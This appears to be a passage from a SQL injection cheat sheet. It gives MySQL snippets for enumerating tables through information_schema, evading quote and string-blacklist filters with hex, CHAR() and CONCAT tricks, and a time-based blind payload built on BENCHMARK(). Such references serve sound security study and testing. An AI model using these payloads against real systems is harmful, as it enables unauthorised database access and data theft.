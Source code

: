 ### Query the table based on the column name

```sql
-- Query the table whose name is username
SELECT table_name
FROM information_schema.columns
WHERE column_name = 'username';
-- Query the table containing the username in the field name
SELECT table_name
FROM information_schema.columns
WHERE column_name LIKE '%user%';
```

### Bypassing quotes

```sql
-- hex encoding
SELECT *
FROM Users
WHERE username = 0x61646D696E
-- char() function
SELECT *
FROM Users
WHERE username = CHAR (97, 100, 109, 105, 110)
```

### Bypassing the string blacklist

```sql
SELECT 'a' 'd' 'mi' 'n';
SELECT CONCAT('a', 'd', 'm', 'i', 'n');
SELECT CONCAT_WS('', 'a', 'd', 'm', 'i', 'n');
SELECT GROUP_CONCAT('a', 'd', 'm', 'i', 'n');
```

When `CONCAT()` is used, any argument is null and will return null. It is recommended to use `CONCAT_WS()`. The first
argument of the `CONCAT_WS()` function indicates which character interval is used to query the result.

### Conditional statements

`CASE`, `IF()`, `IFNULL()`, `NULLIF()`.

```sql
SELECT IF(1 = 1, true, false);
SELECT CASE WHEN 1 = 1 THEN true ELSE false END;
```

### Delay function

`SLEEP()`, `BENCHMARK()`.

```sql
' - (IF(MID(version(),1,1) LIKE 5, BENCHMARK(100000,SHA1('true')), false)) - '
```
